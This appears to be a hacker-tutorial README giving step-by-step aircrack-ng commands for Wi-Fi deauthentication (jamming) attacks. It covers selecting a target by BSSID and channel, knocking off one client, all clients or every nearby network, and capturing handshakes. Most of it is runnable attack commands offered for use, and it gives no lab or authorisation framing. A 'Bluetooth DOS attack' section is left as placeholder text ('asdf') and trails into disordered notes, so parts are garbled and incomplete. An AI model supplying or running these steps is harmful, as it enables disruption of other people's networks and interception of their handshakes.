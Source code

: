 <h1 align="center">Network Jamming / Network Spoofing</h1>

## Deauth. attack  

The **Deauth** attack perform on Wi-Fi (802.11) network only. It won't affect those people who are using internet via Ethernet cable (IEEE 802.3) i.e. wired cable. The target of this attach have 3 types :  
- [x] Attack on **a particular client** of a particular Wi-Fi's network (specific client if have/know his mac addreess)
- [x] Attack on **all clients** of a particular Wi-Fi's network (if don't know any client's MAC address)
- [x] Attack on **all Wi-Fi** available networks/routers directly.

> But to attack on Ethernet cable using clients, the methods are : ARP Spoofing / ARP Poisoning (Man-in-the-Middle Attack), DHCP Starvation or Rogue DHCP Attack, Switch MAC Flooding (CAM Table Overflow). But these we won't learn here, or maybe we'll learn it later.

`~$` is local user.  
`~#` is root user.  




#### Step 1 : Setup for Attack
First we need to convert the 'wlan0' interface to 'wlan0mon' interface, basically we are do setup & enabling the Wi-Fi's monitoring mode to do attack. For this we use the following commands :  
```
sudo su
iwconfig
airmon-ng
iwconfig wlan0
// airmon-ng start wlan0
airmon-ng check kill (2 times) . . .
airmon-ng stop wlan0 . . .
iw wlan0 del
airmon-ng start wlan0mon
iwconfig
rfkill list


clear
exit
exit
```
Run the above commands one-by-one only.  
<br>


#### Step 2 : Searching targeted Wi-Fi
Now run the following commands :  
```
airodump-ng wlan0mon

- - -ctrl + C to stop
- - -Can close if done work
```
So, when it dispaly the required network then we can stop the process with 'ctrl + C' shortcut. But don't close this tab, it helps to copy network's channel no. & BSSID.  
<br>


#### Step 3 : Locking targeted Wi-Fi/router and Searching its targeted client
Now open new terminal tab and run the following commands :  
```
sudo su


airodump-ng wlan0mon --bssid "_" -c "_"
	(OR)
airodump-ng --bssid "_" -c "_" wlan0mon
	(OR)
airodump-ng -c_ -d "__BSS-ID__" wlan0mon


- - - - -Keep running, don't close
```
**Don't close it, keep running**. So, here we need to mentioned a particular Wi-Fi network's BSSID & channel no. And from this we are setting to attack on a particular Wi-Fi network. If want to attack all network then don't mention BSSID & channel no.
<br>


#### Step 4 : Attacking (on router // on client)
Now open new terminal tab and run the following commands :  
```
sudo


aireplay-ng --deauth 0 -a "___BSS-ID___" -c "__STATION__" wlan0mon
	(OR)
besside-ng -c "_" wlan0mon


- - - - -ctrl + C ----😁
```
Here, if we want to attack all then don't mention BSSID & station of any client.






---
---



## Bluetooth DOS attack

#### Step 1 : Bluetooth Enable (optional)
Check whether the Bluetooth is enabled or not. If not enabled then enable it and proceed to **next step**. But if the Bluetooth icon not appearing, or it's not enabling, then follow the below commands :   
```
~$ asdf
```
```
~# asdf
```

<br>

#### Step 2 :  
asdf










------
------
------
rfkill list all

	xxx	sudo apt-get update

sudo apt reinstall blueman

sudo apt reinstall bluetooth

/etc/init.d/bluetooth status

sudo /etc/init.d/bluetooth start



sudo systemctl list-unit-files --type=service

          to exit---> ctrl + C

sudo systemctl enable blueman-mechanism.service

sudo systemctl enable bluetooth.service

sudo systemctl list-unit-files --type=service

exit

			// https://youtu.be/w1MvrcBSNjw
------
------
------

convert wlan0 to wlan0mon
-------------------------
sudo su
iwconfig
airmon-ng stop wlan0
iw wlan0 del
airmon-ng start wlan0mon
rfkill list

----------------------------
method-1
---------
sudo su
airmon-ng check kill
airmon-ng start wlan0

airodump-ng wlan0mon
ctrl+C
	
	sudo su
	cd Desktop
	airodump-ng wlan0mon --bssid "_" -c "_" -w demo

		sudo su
		aireplay-ng --deauth 0 -a "___BSS-ID___" wlan0mon
		ctrl+C, ^ ENTER....

after handshake...
---------------------------------
method-2
---------
sudo su
airmon-ng
iwconfig
clear

airmon-ng start wlan0
airmon-ng check kill (2)
airmon-ng start wlan0
clear
airmon-ng start wlan0mon
clear
iwconfig

airodump-ng wlan0mon
ctrl+C

	sudo su
	cd Desktop
	airodump-ng --bssid "_" -c "_" -w demo wlan0mon  //  (attack all networks don't metioned client/channel and bssid)

		sudo su
		besside-ng -c "_" wlan0mon  //  (attack all networks don't metioned client)

after handshake...
----------------------------------
method-3
--------

iwconfig
ifconfig wlan0
airmon-ng start wlan0
iwconfig
clear

airodump-ng wlan0mon
ctrl+C

sudo su
cd Desktop
airodump-ng -c_ -w demo -d "__BSS-ID__" wlan0mon

	sudo su
	aireplay-ng --deauth 0 -a "__BSS-ID__" -c "__STATION__" wlan0mon // (all or particular member using -c and station)
	ctrl+C

after handshake...
airmon-ng stop wlan0mon	


